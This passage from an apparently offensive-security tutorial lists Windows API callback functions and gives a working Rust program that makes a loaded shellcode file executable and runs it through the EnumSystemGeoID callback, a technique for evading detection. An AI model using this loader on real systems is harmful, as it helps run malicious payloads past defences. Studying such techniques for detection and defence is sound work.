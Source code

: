 - ImageGetDigestStream
- ImmEnumInputContext
- InitOnceExecuteOnce
- LdrEnumerateLoadedModules
- LdrpCallInitRoutine
- OpenThreadWaitChainSession
- RtlUserFiberStart
- SetTimer
- SetupCommitFileQueueW
- SymEnumProcesses
- SymFindFileInPath
- SysEnumSourceFiles
- VerifierEnumerateResource

You're free to study the Microsoft documentation for the function you want to use.

Or you can consult this Github repository, which contains sample implementations of some of these callback functions: https://github.com/aahmad097/AlternativeShellcodeExec .

We'll now develop an example with the "EnumSystemGeoID" function, based on our previous implementation of dynamic allocation:
```
# src/main.rs

use std::ffi::c_void;
use std::mem::transmute;
use windows::Win32::Globalization::{EnumSystemGeoID, GEO_ENUMPROC};
use windows::Win32::System::Memory::{VirtualProtect, PAGE_EXECUTE_READ, PAGE_PROTECTION_FLAGS};

const SHELLCODE: &[u8] = include_bytes!("shellcode.bin");

fn main() {
    let map = Box::new(SHELLCODE);
    let mut old_p = PAGE_PROTECTION_FLAGS::default();

    unsafe {
        VirtualProtect(
            map.as_ptr() as *mut c_void,
            map.len(),
            PAGE_EXECUTE_READ,
            &mut old_p,
        )
        .unwrap();

        let res = EnumSystemGeoID(
            16,
            0,
            transmute::<*mut std::ffi::c_void, GEO_ENUMPROC>(map.as_ptr() as *mut c_void),
        );
    }
}
```

